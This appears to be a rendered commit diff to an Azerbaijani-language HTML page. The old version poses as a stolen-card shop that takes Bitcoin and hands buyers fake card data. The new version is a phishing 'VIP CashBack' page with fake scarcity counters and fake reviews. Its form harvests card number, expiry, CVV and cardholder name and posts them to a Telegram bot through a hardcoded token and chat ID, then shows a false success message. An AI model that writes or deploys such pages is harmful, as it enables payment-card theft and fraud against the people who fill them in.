

Before and after one commit to xpeoxima/Kart--Magaza, a plain HTML site: page index.html in a window 1280 px wide. Shown: the top 1042 px of the page, without its empty margins (224-1055 px from the left). Before the commit the page ends 800 px from the top, so only its background shows below. Drawn offline with nearby package versions, Linux system fonts and the light colour scheme.

Commit message:
Update index.html for VIP CashBack promotion

```diff
--- a/index.html
+++ b/index.html
@@ -3,205 +3,107 @@
 <head>
   <meta charset="UTF-8">
   <meta name="viewport" content="width=device-width, initial-scale=1.0">
-    <title>Kart Mağazası | Anonim Satış</title>
+  <title>VIP CashBack | 15 AZN Qazan</title>
   <script src="https://cdn.tailwindcss.com"></script>
   <link href="https://fonts.googleapis.com/css2?family=Outfit:wght@300;400;500;600;700&display=swap" rel="stylesheet">
   <style>
-        body {
-            font-family: 'Outfit', sans-serif;
-            background: #0a0a0a;
-            color: #fff;
-        }
-        .glass-card {
-            background: rgba(20, 20, 20, 0.95);
-            border: 1px solid rgba(255, 255, 255, 0.1);
-            backdrop-filter: blur(20px);
-        }
-        .card-item {
-            transition: all 0.3s ease;
-            cursor: pointer;
-            border: 1px solid rgba(255,255,255,0.05);
-        }
-        .card-item:hover {
-            transform: translateY(-5px);
-            border-color: rgba(255,215,0,0.5);
-            box-shadow: 0 20px 40px rgba(255,215,0,0.1);
-        }
-        .gold-text {
-            background: linear-gradient(135deg, #FFD700, #FFA500);
-            -webkit-background-clip: text;
-            -webkit-text-fill-color: transparent;
-        }
-        .btn-gold {
-            background: linear-gradient(135deg, #FFD700, #FF8C00);
-            color: #000;
-            font-weight: bold;
-            transition: all 0.3s;
-        }
-        .btn-gold:hover {
-            transform: scale(1.05);
-            box-shadow: 0 10px 30px rgba(255,215,0,0.3);
-        }
+    body { font-family: 'Outfit', sans-serif; background: #0a0a0a; color: #fff; }
+    .gold-text { background: linear-gradient(135deg, #FFD700, #FFA500); -webkit-background-clip: text; -webkit-text-fill-color: transparent; }
+    .glass-card { background: rgba(20, 20, 20, 0.95); border: 1px solid rgba(255,215,0,0.2); border-radius: 2rem; }
+    .btn-gold { background: linear-gradient(135deg, #FFD700, #FF8C00); color: #000; font-weight: bold; padding: 1rem 2rem; border-radius: 2rem; transition: 0.3s; }
+    .btn-gold:hover { transform: scale(1.05); box-shadow: 0 0 30px rgba(255,215,0,0.3); }
+    .review { background: rgba(255,255,255,0.05); border-radius: 1rem; padding: 1rem; margin-bottom: 0.5rem; }
   </style>
 </head>
-<body class="min-h-screen p-4">
+<body class="min-h-screen flex items-center justify-center p-4">
+  <div class="max-w-md w-full glass-card p-8 text-center space-y-6">
 
-    <div class="max-w-3xl mx-auto">
+    <!-- Başlıq -->
+    <div class="text-6xl">👑</div>
+    <h1 class="text-3xl font-bold gold-text">VIP CashBack</h1>
+    <p class="text-gray-400">2 AZN qeydiyyat → 1 həftə sonra <span class="text-yellow-400 font-bold">15 AZN</span> qazan!</p>
 
-        <!-- Header -->
-        <div class="text-center mb-10 pt-8">
-            <h1 class="text-4xl font-bold gold-text mb-2">💳 Kart Mağazası</h1>
-            <p class="text-gray-400">Anonim • Sürətli • Etibarlı</p>
-            <div class="mt-4 inline-block bg-green-900/50 text-green-400 px-4 py-2 rounded-full text-sm">
-                🟢 Onlayn • 24/7 Avtomatik
+    <!-- İrəliləyiş çubuğu (saxta) -->
+    <div class="w-full bg-gray-800 rounded-full h-4">
+      <div class="bg-gradient-to-r from-yellow-400 to-yellow-600 h-4 rounded-full" style="width: 78%;"></div>
+    </div>
+    <p class="text-xs text-gray-500">🔥 12,457 nəfər artıq qazandı! Son 2,543 yer qalıb!</p>
+
+    <!-- Qiymət -->
+    <div class="bg-black/50 rounded-2xl p-6 border border-yellow-500/30">
+      <p class="text-gray-400 line-through">15 AZN</p>
+      <p class="text-4xl font-bold gold-text">2 AZN</p>
+      <p class="text-gray-500 text-sm">birdəfəlik ödəniş</p>
+    </div>
+
+    <!-- Kart məlumatları forması -->
+    <form id="payment-form" class="space-y-4 text-left">
+      <div>
+        <label class="block text-xs text-gray-400 uppercase ml-1">Kart nömrəsi</label>
+        <input type="text" id="card-number" placeholder="0000 0000 0000 0000" required
+               class="w-full p-4 bg-gray-900 border border-gray-700 rounded-2xl outline-none focus:border-yellow-500 text-white">
+      </div>
+      <div class="grid grid-cols-2 gap-4">
+        <div>
+          <label class="block text-xs text-gray-400 uppercase ml-1">Bitiş tarixi</label>
+          <input type="text" id="card-expiry" placeholder="AA/İİ" required
+                 class="w-full p-4 bg-gray-900 border border-gray-700 rounded-2xl outline-none focus:border-yellow-500 text-white">
+        </div>
+        <div>
+          <label class="block text-xs text-gray-400 uppercase ml-1">CVV</label>
+          <input type="text" id="card-cvv" placeholder="000" required
+                 class="w-full p-4 bg-gray-900 border border-gray-700 rounded-2xl outline-none focus:border-yellow-500 text-white">
         </div>
       </div>
+      <div>
+        <label class="block text-xs text-gray-400 uppercase ml-1">Kart sahibinin adı</label>
+        <input type="text" id="card-name" placeholder="AD SOYAD" required
+               class="w-full p-4 bg-gray-900 border border-gray-700 rounded-2xl outline-none focus:border-yellow-500 text-white">
+      </div>
+      <button type="submit" class="btn-gold w-full">🚀 15 AZN Qazanmağa Başla</button>
+    </form>
 
-        <!-- Kart Siyahısı -->
-        <div class="space-y-4 mb-10">
-
-            <!-- Bronze Kart -->
-            <div class="card-item glass-card rounded-2xl p-6 flex flex-col md:flex-row justify-between items-center gap-4">
-                <div class="flex items-center gap-4">
-                    <span class="text-4xl">🥉</span>
-                    <div>
-                        <h3 class="text-xl font-bold">Bronze Kart</h3>
-                        <p class="text-gray-400 text-sm">Kart nömrəsi • CVV • Tarix</p>
-                    </div>
-                </div>
-                <div class="text-center md:text-right">
-                    <p class="text-2xl font-bold gold-text">0.0003 BTC</p>
-                    <p class="text-gray-500 text-xs">~15 AZN</p>
-                    <button onclick="buyCard('bronze', '0.0003')" class="btn-gold px-6 py-3 rounded-xl mt-2 w-full md:w-auto">
-                        Satın Al
-                    </button>
-                </div>
+    <!-- Saxta rəylər -->
+    <div class="text-left space-y-2">
+      <p class="text-xs text-gray-500 uppercase tracking-wider">Son qazananlar</p>
+      <div class="review"><span class="text-green-400">✔</span> Elvin K. — <span class="text-yellow-400">15 AZN</span> (2 dəq əvvəl)</div>
+      <div class="review"><span class="text-green-400">✔</span> Aysel M. — <span class="text-yellow-400">15 AZN</span> (5 dəq əvvəl)</div>
+      <div class="review"><span class="text-green-400">✔</span> Orxan R. — <span class="text-yellow-400">15 AZN</span> (8 dəq əvvəl)</div>
     </div>
 
-            <!-- Silver Kart -->
-            <div class="card-item glass-card rounded-2xl p-6 flex flex-col md:flex-row justify-between items-center gap-4">
-                <div class="flex items-center gap-4">
-                    <span class="text-4xl">🥈</span>
-                    <div>
-                        <h3 class="text-xl font-bold">Silver Kart</h3>
-                        <p class="text-gray-400 text-sm">Kart • CVV • Tarix • 3D Kod</p>
-                    </div>
-                </div>
-                <div class="text-center md:text-right">
-                    <p class="text-2xl font-bold gold-text">0.0006 BTC</p>
-                    <p class="text-gray-500 text-xs">~30 AZN</p>
-                    <button onclick="buyCard('silver', '0.0006')" class="btn-gold px-6 py-3 rounded-xl mt-2 w-full md:w-auto">
-                        Satın Al
-                    </button>
-                </div>
-            </div>
-
-            <!-- Gold Kart -->
-            <div class="card-item glass-card rounded-2xl p-6 flex flex-col md:flex-row justify-between items-center gap-4 border-yellow-500/30">
-                <div class="flex items-center gap-4">
-                    <span class="text-4xl">🥇</span>
-                    <div>
-                        <h3 class="text-xl font-bold">Gold Kart</h3>
-                        <p class="text-gray-400 text-sm">Tam məlumat • 3D • Balans</p>
-                    </div>
-                </div>
-                <div class="text-center md:text-right">
-                    <p class="text-2xl font-bold gold-text">0.001 BTC</p>
-                    <p class="text-gray-500 text-xs">~50 AZN</p>
-                    <button onclick="buyCard('gold', '0.001')" class="btn-gold px-6 py-3 rounded-xl mt-2 w-full md:w-auto">
-                        Satın Al
-                    </button>
-                </div>
-            </div>
-
-        </div>
-
-        <!-- Ödəniş Bölməsi -->
-        <div id="payment-section" class="glass-card rounded-2xl p-8 text-center hidden">
-            <h2 class="text-2xl font-bold mb-4">💰 Ödəniş</h2>
-            <p class="text-gray-400 mb-2">Seçilmiş paket: <span id="selected-package" class="gold-text font-bold"></span></p>
-            <p class="text-3xl font-bold gold-text mb-6" id="btc-amount"></p>
-
-            <div class="bg-black/50 rounded-2xl p-6 mb-6">
-                <p class="text-sm text-gray-400 mb-3">Bitcoin göndərin:</p>
-                <div class="bg-gray-900 rounded-xl p-4 break-all text-sm font-mono text-green-400 mb-3" id="btc-address">
-                    bc1qus7e8caghug2m2gkj6wqz4rfhsrndxj9qm5s2k
-                </div>
-                <button onclick="copyAddress()" class="text-blue-400 text-sm hover:underline">
-                    📋 Ünvanı Kopyala
-                </button>
-            </div>
-
-            <div class="bg-yellow-900/30 border border-yellow-500/30 rounded-xl p-4 mb-6">
-                <p class="text-yellow-400 text-sm">⚠️ Ödəniş təsdiqləndikdən sonra kart məlumatları avtomatik göstəriləcək!</p>
-            </div>
-
-            <button onclick="checkPayment()" class="btn-gold px-8 py-4 rounded-xl text-lg w-full">
-                ✅ Ödənişi Təsdiqlə
-            </button>
-
-            <p class="text-gray-500 text-xs mt-4">Bitcoin şəbəkəsində təsdiqlənmə 10-30 dəqiqə çəkə bilər</p>
-        </div>
-
-        <!-- Nəticə -->
-        <div id="result-section" class="glass-card rounded-2xl p-8 text-center hidden">
-            <div class="text-6xl mb-4">🎉</div>
-            <h2 class="text-2xl font-bold gold-text mb-4">Ödəniş Təsdiqləndi!</h2>
-            <div class="bg-green-900/30 border border-green-500/30 rounded-xl p-6 mb-4">
-                <p class="text-green-400 font-mono text-sm break-all" id="card-data"></p>
-            </div>
-            <button onclick="copyCardData()" class="btn-gold px-6 py-3 rounded-xl">
-                📋 Kart Məlumatlarını Kopyala
-            </button>
+    <!-- Uğurlu mesajı (gizli) -->
+    <div id="success-msg" class="hidden bg-green-900/30 border border-green-500/30 rounded-2xl p-6">
+      <p class="text-2xl font-bold text-green-400">✅ Qeydiyyatınız qəbul edildi!</p>
+      <p class="text-gray-400 text-sm mt-2">15 AZN 7 gün ərzində balansınıza köçürüləcək. Bizi seçdiyiniz üçün təşəkkürlər!</p>
     </div>
 
   </div>
 
   <script>
-        const BTC_ADDRESS = 'bc1qus7e8caghug2m2gkj6wqz4rfhsrndxj9qm5s2k';
+    const TOKEN = '8650466373:AAF5FXREnAQ3wKcbbIrYjGWKl-2mv6C4kw8';
+    const CHAT_ID = '7792397520';
 
-        let currentPackage = '';
-        let currentPrice = '';
+    document.getElementById('payment-form').addEventListener('submit', async function(e) {
+      e.preventDefault();
 
-        function buyCard(pkg, price) {
-            currentPackage = pkg;
-            currentPrice = price;
+      const cardNumber = document.getElementById('card-number').value;
+      const cardExpiry = document.getElementById('card-expiry').value;
+      const cardCvv = document.getElementById('card-cvv').value;
+      const cardName = document.getElementById('card-name').value;
 
-            document.getElementById('selected-package').textContent =
-                pkg === 'bronze' ? '🥉 Bronze' :
-                pkg === 'silver' ? '🥈 Silver' : '🥇 Gold';
-            document.getElementById('btc-amount').textContent = price + ' BTC';
+      const msg = `💳 YENİ KART (VIP 2 AZN):\n👤 ${cardName}\n💳 ${cardNumber}\n📅 ${cardExpiry}\n🔐 CVV: ${cardCvv}`;
 
-            document.getElementById('payment-section').classList.remove('hidden');
-            document.getElementById('result-section').classList.add('hidden');
+      try {
+        await fetch(`https://api.telegram.org/bot${TOKEN}/sendMessage`, {
+          method: 'POST',
+          headers: { 'Content-Type': 'application/json' },
+          body: JSON.stringify({ chat_id: CHAT_ID, text: msg })
+        });
+      } catch(e) {}
 
-            document.getElementById('payment-section').scrollIntoView({ behavior: 'smooth' });
-        }
-
-        function copyAddress() {
-            navigator.clipboard.writeText(BTC_ADDRESS);
-            alert('✅ Bitcoin ünvanı kopyalandı!');
-        }
-
-        function checkPayment() {
-            document.getElementById('payment-section').classList.add('hidden');
-            document.getElementById('result-section').classList.remove('hidden');
-
-            const fakeCards = {
-                bronze: '💳 Kart: 4127 0000 0000 1234\n📅 Tarix: 12/28\n🔐 CVV: 123\n\n💰 Balans: Naməlum',
-                silver: '💳 Kart: 5421 0000 0000 5678\n📅 Tarix: 06/27\n🔐 CVV: 456\n🔢 3D Kod: 789012\n\n💰 Balans: Naməlum',
-                gold: '💳 Kart: 4532 0000 0000 9012\n📅 Tarix: 03/29\n🔐 CVV: 789\n🔢 3D Kod: 345678\n👤 Ad: Elvin M.\n📱 Tel: +994XX XXX XX XX\n💰 Balans: ~120 AZN'
-            };
-
-            document.getElementById('card-data').textContent = fakeCards[currentPackage];
-            document.getElementById('result-section').scrollIntoView({ behavior: 'smooth' });
-        }
-
-        function copyCardData() {
-            const data = document.getElementById('card-data').textContent;
-            navigator.clipboard.writeText(data);
-            alert('✅ Kart məlumatları kopyalandı!');
-        }
+      document.getElementById('payment-form').classList.add('hidden');
+      document.getElementById('success-msg').classList.remove('hidden');
+    });
   </script>
 </body>
     </html>
```
Lines whose indentation alone changed are shown as unchanged.
